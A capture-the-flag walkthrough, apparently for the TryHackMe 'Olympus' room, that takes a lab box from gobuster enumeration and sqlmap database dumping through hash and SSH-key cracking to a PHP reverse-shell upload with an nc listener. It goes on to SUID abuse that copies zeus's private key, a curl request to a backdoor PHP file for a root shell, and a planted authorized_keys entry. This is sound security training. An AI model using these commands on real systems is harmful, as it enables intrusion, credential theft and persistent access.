


Step 1: Scan the target and resolve the host

Upon scanning the target I found two open ports-> ssh and http
intially I tried to access the website but it indicated that the page was not found or can't be reached.
I even tried searching for an exploit related to the ssh and http versions respectively
The issue was the ip resolved to a domain called 'olympus.thm' and it had to be locally resolved
so in the `/etc/hosts/` file an entry was to be made: <ip> olympus.thm
Now the website was accessible

Step 2: Directory Enumeration

The website didn't give away much from the content that was displayed so the classic approach in such challenges would be to try to bruteforce for endpoints or basically perform `directory bruteforcing`.
so I initially used the IP of the target for the url which again created an issue as when Vhosts or Virtual hosts are present then an ip address can point to multiple servers so the host will be used for directing traffic
to the correct server.
The following command I ran: `gobuster dir -u http://olympus.thm -w /usr/share/wordlists/dirb/common.txt`  Note: if the wordlist in the `dirbuster` directory does not work, the `common.txt` can be tried as well.
One endpoint looked weird it started with "~" so I tried accessing it

Step 3: SQL Injection

The webpage looked like it had a search functionality along with filters and login form plus nothing else seemed interesting

In the search functionality I entered ` ' ` and an error was generated which indicated towards some mysql syntax error, I see... SQL injection it is...

Now for post requests you have to have a copy of the request header in a file which you can get through the `Network tab` of dev tools for the request or use BurpSuite and save the request

I also saw a GET parameter was present but when trying out ` ' ` it didn't return anything just blank, but I ended up trying that using `SQLMap` and for some reason it worked but it was `boolean based blind sql 
Injection`.

The intended path was POST though, but anyways I still decided to proceed as it was vulnerable and then I ended up dumping the database, as seen shown below

 

 The olympus database seems interesting so lets dumps all of its tables- > `sqlmap -u http://olympus.thm/~webmaster/category.php?cat_id=1 -D olympus --tables`

 So I see that it has a table called flag so obv that is where we found the first flag -> `sqlmap -u http://olympus.thm/~webmaster/category.php?cat_id=1 -D olympus -T flag --dump`

 Step 4: Further Enumeration of the database

 So I see a table called users so decided to view that and found that it has the names,roles,email,salt and finally the hashed password for some users.

 Prometheus didn't have any salt so I was like lets try his password first, through research(AI lol) I found that the hash format was bcrypt.

 So now either John or Hashcat could be used with most likely `rockyou.txt` to crack the password, I used hashcat-> `hashcat -a 0 -m  3200 <hash_file> rockyou.txt`

 Ok the password is `summertime` but WHERE DO WE APPLY THAT!

 Step 5: Hidden Subdomain

 So looks like the password is for some login form so I remembered initially that `~` endpoint had a login form so we could try it there. After trying it we could login and alot of contents were present but nothing useful as our rights were low.

 So had to do a bit of researching(things aren't always that easy) and turned out the `chat.olympus.thm` which was found in the emails for other users except Prometheus was a subdomain, Like WOW that was a bit unexpected

Step 6: Web Shell Upload

So I forgot to mention that after we logged in as prometheus in the `~` endpoint for the `olympus.thm` domain we did find an upload feature but it wasn't really working when a web shell or a reverse shell was uploaded.

But after we log in using the user prometheus and the password we cracked for the subdomain `chat.olympus.thm` we see that some chats are present and they are talking about some files that are being uploaded but inorder to find the file or execute them basically the pathname to access them is hard or unpredictable cause some weird function is being used. I see...

Previous knowledge is important for connecting things, Basically we had a table called `chats` so lets check that out, hmm as we can see in the image below the name of the file that we upload here in chat and the filename is the modified one which is hard to guess.

So now we can upload a php-reverse-shell to gain access on the filesystem, PHPSESSIONID was used as cookies and other indicators help us know that backend is using PHP. The PHP rev shell can be obtained online just search it up or search for GitHub repos.

Now open the PHP rev shell file and change the IP address to your system one and make sure the interface is right, if you are connected to THM's network using VPN then the interface would be `TUN0` and then change the port to the desired one like `4444` or `1234` 

Now on your attacking machine run the command `nc -lvnp 4444` to start a listener on port 4444 and then upload the php rev shell on the chat and then dump the chat table again. Make sure in the `SQLmap` command you add `--fresh-queries` to ensure cache responses are not returned.

Now once you find the filename which is a random string, you go to the endpoint /uploads/<filename>.php(A common directory for storing uploaded files) and boom the reverse shell executes and when you go back to the terminal in your attacking machine you get the shell.

You can stabilize the shell so that the shell prompt looks better and feel interactive using -> `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Step 7 : Explore the filesystem

Now we go to `/home/zeus` and see a flag file in it. Ok so the 2nd file is obtained, nice

At his point we are logged in as `www-data` user and don't have the password to see what we can execute as user or even execute anything

so the classic thing we can do in this case is search for files with the SUID bit set and the command for that is `find / -perm -4000 -type f 2>/dev/null`

So some files are listed and now it depends on your knowledge and how much frequently you have performed privilege escalation and whether you can spot anomaly or that something isn't right

So in this case the `cputils` file or script has the SUID bit set and upon executing it or reading the code we can figure it out(or search externally, AI is there always!!) that this is used for copying files from one location to another in the filesystem but with root privileges. I see...

so Now in this case the zeus user's private key stored in `.ssh` can be copied and using it we can ssh into the system as zeus, so after running `cputils` source file-> `./.ssh/id_rsa` and target `id_rsa` we can now access the private key and then try to ssh into zeus's account as the public key stored in his `.ssh` will verify for us the private key

Step 8: SSH as user Zeus

so now we copied the private key in our attacking system and then changed permissions to `600` cause otherwise the key is not safe message will be displayed and we can't proceed then. But there is a slight issue here as the private key seems to require a passphrase. Seriously like they are not letting us easy here too...

So we first convert the private key to a suitable format for john using `ssh2john private_key > ssh_format.txt` and then crack it `john ssh_format.txt --wordlist=/usr/share/wordlists/rockyou.txt`

ok `snowflake` it seems. So now we get access to the system as Zeus. Finally, now lets see what are we left with.

Step 9: Explore the `var` directory

So now we should be clueless at this point which means lets go back to the `/var/www/html` and then we see that there is a directory with a weird name , so lets explore it shall we

In it we find two files, one of them is some index.html and the other seems ideal as it is a `.php` file. Now again the code inside it seems hectic so we have our external for analyzing it(AI is the way)

Seems like its a backdoor code that gives us root level shell access. Interesting...

so we have to make a curl request in this case with some data that we send according to the code requirement(too crazy to understand but in short its just like a localhost request to this `.php` file that we found with some given parameters , thats all) -> `curl -X POST   -d "password=a7c5ffcf139742f52a5267c4a0674129"   "http://localhost/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=<ip>&port=1234"`

Before we send the request make sure to start our netcat listener `nc -lvnp <chosen_port>` and then send the request and boom we got a root shell and then we stabilize using the same command like we did before

Step 10 : Conquering it all!

So in the `/root` directory we find the flag inside `root.flag` but it seems the challenge is not over as the last flag is still left(NOOOOOOOOO)

the file that had the flag gave us some hints about using regex, but first of all its better if we ssh as root and then try searching for it.

So the plan in this case is that we go to our attacking machine and then using `ssh-keygen` create public and private keys and then `echo` our public key inside the `authorized_keys` file of the root user on the target machine and then we try logging in using our private key and then our public key that was planted on our target system will verify and let us in. Not bad I suppose

So we go to `/.ssh` folder in the root directory of the target and then we run the command `echo 'ssh-ed25519 <string>' > authorized_keys` here `<string>` will be the public key data which is Base64 encoded

so now we go back to our attacking system and then set the permission to `600` for the private key and then use it -> `ssh -i private_key root@<ip>`. Note: We didn't set any password for private key but ideally for real usecases one should set a strong password.

Now we have logged in as root user and we remember some `regex` hint was given so now I realize that the flag should be stored in some file and idk where the file could be but the content of the file will have the pattern `flag{}` so now the approach will be to search every file on the filesystem where the pattern `flag{` will be found and hopefully we can find the flag.

So we can use the command -> `grep -R '^flag{' / 2>/dev/null` (But this will take a long time, so as per the rooms hint the flag is located in `/etc` so to save time instead we use that.

so -> `grep -R '^flag{' /etc 2>/dev/null`

And Boom we got the flag

The chaining of operations that we performed was interesting and hopefully something as been learnt from this. Indeed an interesting challenge!

 

 

